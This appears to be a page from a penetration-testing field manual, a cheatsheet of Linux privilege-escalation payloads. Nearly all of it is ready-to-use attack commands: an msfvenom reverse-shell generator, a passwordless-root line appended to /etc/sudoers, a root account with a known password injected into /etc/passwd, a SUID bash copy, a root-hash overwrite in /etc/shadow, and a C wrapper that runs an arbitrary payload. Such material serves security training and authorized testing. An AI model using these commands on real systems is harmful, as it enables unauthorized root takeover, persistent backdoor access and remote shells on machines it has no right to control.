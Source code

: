 # Linux PrivEsc Payloads

## Cheatsheet

|Action|Description|
|---|---|
|`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf`|Generates a Linux x64 reverse TCP shell payload in ELF format.|
|`echo '<username> ALL=(root) NOPASSWD: ALL' >> /etc/sudoers`  <br>  <br>To get a `root` shell:  <br>`sudo su`|Grants a user passwordless root privileges via `sudo`.|
|`echo 'r00t:$1$H5CxLMip$oSqpK92MM5tNOjlQ0nkO80:0:0:root:/root:/bin/bash' >> /etc/passwd`  <br>  <br>[Writeable /etc/passwd](https://manual.brunorochamoura.com/manual/post-exploitation/linux-post-exploitation/linux-privilege-escalation/passwd--shadow/writeable-etc-passwd/)|Inserts a new user to `/etc/passwd` with `root` privileges.  <br>  <br>Credentials:  <br>`r00t`:`brm_53cur3_p455w0rd`|
|`cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash`  <br>  <br>To get a shell as `root`:  <br>`/tmp/rootbash -p`|Creates a copy of the bash binary with a SUID set.|
|`mkpasswd -m sha-512 <password>`  <br>`sed -i 's/^root:\(.*\):/root:<password-hash>:/' /etc/shadow`  <br>  <br>[Writeable /etc/shadow](https://manual.brunorochamoura.com/manual/post-exploitation/linux-post-exploitation/linux-privilege-escalation/passwd--shadow/writeable-etc-shadow/)|Tampers with `/etc/shadow` to replace a `root`’s password.|
|`#include <stdio.h>`  <br>`#include <stdlib.h>`  <br>  <br>`int main(){`  <br>`system("PAYLOAD HERE");`  <br>`return 0;`  <br>`}`|A minimal C program that executes a payload when run.  <br>  <br>Compile it to an `elf` executable with:  <br>`gcc <program>.c -o <executable>`|

## Related Articles: [](https://field-manual.brunorochamoura.com/manual/post-exploitation/linux-post-exploitation/linux-privilege-escalation/linux-privesc-payloads/#related-articles)

- [Reverse Shells](https://manual.brunorochamoura.com/manual/pre-exploitation/shells/reverse-shells/): For additional reverse shell payloads
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Payloads 
